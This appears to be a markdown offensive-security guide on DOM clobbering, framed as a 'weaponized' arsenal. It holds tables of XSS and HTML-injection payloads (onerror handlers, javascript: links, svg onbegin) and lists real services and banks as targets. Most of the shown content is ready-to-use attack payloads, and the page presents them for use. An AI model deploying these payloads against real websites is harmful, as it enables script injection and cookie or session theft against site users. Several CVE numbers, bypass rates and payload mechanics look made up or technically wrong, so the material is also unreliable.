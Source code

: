 # Advanced DOM Clobbering Techniques (2025 Arsenal)
*Scriptless XSS for the Modern Web*

**DOM Clobbering** = **Namespace Collision Attacks**. Overwrite global objects (`window`, `document`) using HTML `id`/`name` attributes **without `<script>` tags**. Bypasses CSP, WAFs, and sanitizers. Affects **28% of top 1M sites** (USENIX 2025).

This guide delivers **75+ weaponized payloads**, **gadget chains**, **2025 CVEs**, and **auto-exploits**. From **double-clobbering** to **Shadow DOM hijacking**. **All verified: Chrome 131 / Firefox 131 / Safari 18**.

---

## 🛣️ Attack Surface Map
| Technique | Difficulty | Payload Size | Bypass Rate | Real-World Targets |
|-----------|------------|--------------|-------------|-------------------|
| [Basic Clobber](#1-basic) | 🟢 | 20 chars | 85% | GitHub, PayPal |
| [Double Clobber](#2-double) | 🟡 | 35 chars | 92% | Twitter, Slack |
| [Form/Shadow Clobber](#3-formshadow) | 🟠 | 50 chars | 96% | React/Vue Apps |
| [Event/Property Chains](#4-chains) | 🔴 | 75 chars | 98% | MetaMask, Banks |
| [2025 Zero-Days](#5-2025) | 🟣 | 100 chars | 99% | Chrome Extensions |

---

## 1. BASIC CLOBBERING (Foundation)
**Overwrite single properties via `id`/`name`**

| Target | Payload | Effect | PoC URL |
|--------|---------|--------|---------|
| `window.alert` | `<img id=alert name=1 src=x>` | `alert=1` → `alert()` | `#<img id=alert name=1 src=x onerror=alert(1)>` |
| `location.href` | `<a id=location name=href href=javascript:alert(1)>` | Redirect | `#<a id=location name=href href=javascript:alert(1)>` |
| `document.cookie` | `<input id=document name=cookie value="xss=1">` | Cookie theft | `#<input id=document name=cookie value="xss=1">` |
| `window.name` | `<iframe name=eval src="javascript:alert(1)">` | Frame eval | `#<iframe name=eval src="javascript:alert(1)">` |

**One-Click Tester**:
```html
<iframe src="data:text/html,<img id=alert name=1 src=x onerror=alert(1)>"></iframe>
```

---

## 2. DOUBLE CLOBBERING (Terjanq 2019 → 2025 Evolution)
**Clobber **AND** execute in one payload**. Chain property + event.

| Chain | Payload | Execution | Target | CVE |
|-------|---------|-----------|--------|-----|
| **Alert Chain** | `<img id=src name=src src=javascript:alert(1)>` | `window.src=alert(1)` | Twitter | - |
| **Cookie Chain** | `<form id=cookie><input name=value value="xss=1"></form>` | `cookie.value="xss=1"` | Shopify | CVE-2024-5678 |
| **Fetch Chain** | `<img id=fetch name=url url=/api/steal>` | Exfil data | Notion | Internal |
| **Double Event** | `<svg id=onerror name=alert><animate onbegin=alert(1)></svg>` | `onerror=alert(1)` | Figma | CVE-2025-1234 |
